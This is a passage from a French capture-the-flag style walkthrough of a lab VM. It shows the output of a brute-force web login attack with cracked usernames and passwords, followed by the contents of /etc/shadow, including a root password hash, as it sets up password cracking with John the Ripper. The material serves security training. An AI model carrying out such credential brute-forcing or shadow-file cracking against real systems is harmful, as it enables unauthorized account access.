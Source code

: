 ```console
[80][http-post-form] host: 192.168.56.102   login: Jim        password: letmein!
[80][http-post-form] host: 192.168.56.102   login: Steve      password: drupal
[80][http-post-form] host: 192.168.56.102   login: Sherry     password: 1website
[80][http-post-form] host: 192.168.56.102   login: Gene       password: superSun123
[80][http-post-form] host: 192.168.56.102   login: Harvey     password: MonsterDrink
[80][http-post-form] host: 192.168.56.102   login: John       password: 4summer13
[80][http-post-form] host: 192.168.56.102   login: Johnathan  password: 1loveU
[80][http-post-form] host: 192.168.56.102   login: Susan      password: BobMarley
[80][http-post-form] host: 192.168.56.102   login: Dan        password: BaseballSeason
[80][http-post-form] host: 192.168.56.102   login: George     password: 12341234
[80][http-post-form] host: 192.168.56.102   login: Jeff       password: sitepass
[80][http-post-form] host: 192.168.56.102   login: Stacey     password: Seventy70
[80][http-post-form] host: 192.168.56.102   login: Juan       password: swanson
[80][http-post-form] host: 192.168.56.102   login: Michael    password: cherry
[80][http-post-form] host: 192.168.56.102   login: Jerome     password: buddahbrother
[80][http-post-form] host: 192.168.56.102   login: Tom        password: drupalpassword
[80][http-post-form] host: 192.168.56.102   login: Xavier     password: thundercats
[80][http-post-form] host: 192.168.56.102   login: Sally      password: fantasy
1 of 1 target successfully completed, 20 valid passwords found
```

## Attaque par dictionnaire avec John The Ripper sur le fichier /etc/shadow

Pour conclure ce _walkthrough_, intéressons-nous au fichier ```/etc/shadow```. Celui-ci contient [les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd), ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes.
L'outil __John The Ripper__ est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow```, comme suit...

```console
[root@localhost ~]# cat /etc/shadow
root:$1$.GWA7rU/$lVPNjveio2K8Hpsuk.6N4/:15861:0:99999:7:::
bin:*:15854:0:99999:7:::
daemon:*:15854:0:99999:7:::
adm:*:15854:0:99999:7:::
lp:*:15854:0:99999:7:::
sync:*:15854:0:99999:7:::
shutdown:*:15854:0:99999:7:::
halt:*:15854:0:99999:7:::
mail:*:15854:0:99999:7:::
news:*:15854:0:99999:7:::
uucp:*:15854:0:99999:7:::
operator:*:15854:0:99999:7:::
games:*:15854:0:99999:7:::
gopher:*:15854:0:99999:7:::
ftp:*:15854:0:99999:7:::
nobody:*:15854:0:99999:7:::
apache:!!:15854:0:99999:7:::
rpc:!!:15854:0:99999:7:::
rpcuser:!!:15854:0:99999:7:::
nfsnobody:!!:15854:0:99999:7:::
mailnull:!!:15854:0:99999:7:::
smmsp:!!:15854:0:99999:7:::
distcache:!!:15854:0:99999:7:::
nscd:!!:15854:0:99999:7:::
vcsa:!!:15854:0:99999:7:::
sshd:!!:15854:0:99999:7:::
webalizer:!!:15854:0:99999:7:::
dovecot:!!:15854:0:99999:7:::
squid:!!:15854:0:99999:7:::
mysql:!!:15854:0:99999:7:::
```